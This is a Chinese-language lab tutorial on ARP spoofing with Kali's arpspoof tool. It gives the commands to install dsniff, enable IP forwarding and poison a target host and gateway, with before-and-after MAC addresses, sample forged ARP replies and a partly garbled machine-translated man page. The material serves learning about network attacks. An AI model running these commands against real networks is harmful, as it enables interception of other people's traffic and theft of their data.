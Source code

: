 kali安装arpspoof

```shell
 sudo apt-get install dsniff
```

在使用arpspoof前先开启Kali的IP转发（如果不开起被欺骗主机将会断网），使用命令：

```shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```

-t 参数后的第一个IP地址是被欺骗的主机，第二个IP地址是你要伪装成的主机，如：

```shell
arpspoof  -i eth0 -t 192.168.205.200 192.168.205.2
```

攻击前攻击主机与被攻击主机ip及mac地址：

攻击机：192.168.205.173	00:0c:29:b9:87:9b

被攻击机：192.168.205.200	0:c:29:d9:67:c2

攻击后：

192.168.205.173 已被伪装成192.168.205.2  下图中mac地址已被欺骗成192.168.205.173的mac地址**00:0c:29:b9:87:9b**

之后与192.168.205.2通信的主机数据包都被截获![image-20210520144620092](C:\Users\15507\AppData\Roaming\Typora\typora-user-images\image-20210520144620092.png)

执行以下命令，会欺骗两个主机（被欺骗主机与被伪装主机），发送的伪造ARP响应包如下：

```shell
arpspoof -i eth1 -t 192.168.56.101 192.168.56.102 -r
```

下面两条命令是等效的。执行以下命令，会欺骗两个主机，发送的伪造ARP响应包如下：

```shell
    8:0:27:35:8e:19 8:0:27:31:bf:15 0806 42: arp reply 192.168.56.102 is-at 8:0:27:35:8e:19
    8:0:27:35:8e:19 8:0:27:84:9a:41 0806 42: arp reply 192.168.56.101 is-at 8:0:27:35:8e:19
    8:0:27:35:8e:19 8:0:27:31:bf:15 0806 42: arp reply 192.168.56.102 is-at 8:0:27:35:8e:19
    8:0:27:35:8e:19 8:0:27:84:9a:41 0806 42: arp reply 192.168.56.101 is-at 8:0:27:35:8e:19
    8:0:27:35:8e:19 8:0:27:31:bf:15 0806 42: arp reply 192.168.56.102 is-at 8:0:27:35:8e:19
    8:0:27:35:8e:19 8:0:27:84:9a:41 0806 42: arp reply 192.168.56.101 is-at 8:0:27:35:8e:19
```

***-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------***

名称
       arpspoof-在交换式LAN上拦截数据包

概要
       arpspoof [-i接口] [-c拥有|主机|两者] [-t目标] [-r]主机

描述
       arpspoof通过伪造ARP响应重定向来自局域网中目标主机（或所有主机）的数据包，这些数据包打算用于局域网中的另一主机。这是嗅探网络上流量的一种非常有效的方法
       转变。

       必须提前打开内核IP转发（或完成此操作的用户级程序，例如fragrouter（8））。

选项
       -i接口
              指定要使用的接口。

```
   -c自己|主机|两者
          指定恢复arp配置时使用的硬件地址；清理时，可以使用自己的地址以及主机的地址发送数据包。发送包
          具有虚假硬件地址的ets可能会中断与某些交换机/ ap /网桥配置的连接，但是它比使用自己的地址更可靠地工作，这是arp-的默认方式
          恶搞之后清理。

   -t目标
          为ARP毒药指定一个特定的主机（如果未指定，则为LAN上的所有主机）。重复指定多个主机。

   -r毒害两个主机（主机和目标）以捕获双向流量。 （仅与-t结合使用时有效）

   host指定您希望拦截其数据包的主机（通常是本地网关）。
```

